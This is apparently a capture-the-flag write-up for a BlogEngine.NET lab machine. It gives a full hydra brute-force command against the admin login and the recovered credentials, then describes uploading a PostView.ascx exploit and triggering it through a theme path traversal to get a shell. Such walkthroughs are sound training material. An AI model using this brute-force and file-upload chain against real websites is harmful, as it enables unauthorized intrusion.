 We can find a login page at http://10.10.45.183/Account/login.aspx?ReturnURL=/admin/

We can brute force with with hydra using 'admin' as username


```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.45.183 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=ZGIcuAqu68X9ZUhhyKG1HNKFogXnvdZKhK9UhLDrA1%2BgGMrAK4c3POLnTClHtde8mW3WGWoIsPnimyFHLqesS9dKYi3KCfl2N4GhE4nx2ba%2FtHxiBJVVFsGhqswT%2F4LSCn52IgY%2BDSR59abFCW8u9eP9MW6Un3IiE63pHXuF2b%2Bpc93foFBWMS02ktfS7BzE8UBgU1Va69Zbj%2F7Syadib1cuK1NA8VsCB2iHfkQXUGupU0dg6ZmR1X3fLFC9Ax5XgSgvKpcxGhr74TE4suX852iChdEGnKGQwB%2BxCmAw6a7t0dXZpeo7dW92xPnSdtOiUzk%2Fj4w7NPK%2B1QSEuHCHulho1ZHd5qK2%2BybOsjjKCM82HZTc&__EVENTVALIDATION=8xce1nP%2Beq03DHDevvD8g5zC2dzi%2Fpxl85NW%2BJMm%2FX4cPjLLglabvFmdsRzdZNRYSR5DQtPlc3ejO2e00lCu0oKRCvbSXbxXd%2B5ftDILG33ak9kjDnN3XUda5LAnU7bKwdGDrVWJZ0S6ztBrUNeZWXSMy7xTDqWK5WoUyQk1fn%2B9KV1d&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```

We find our password and log into the website:
`login: admin   password: 1qaz2wsx`


---

We enumerate blogengine.net version number by going to the ABOUT page and find this CVE:

https://www.exploit-db.com/exploits/46353

---

After editing the exploit with our ip and port, we must save the exploit as PostView.ascx.

We can upload the file by navigating here:
http://10.10.10.10/admin/app/editor/editpost.cshtml
Click on the open folder icon and upload the file.

Navigate to this page to trigger the exploit:
http://10.10.10.10/?theme=../../App_Data/files

We now have a shell.



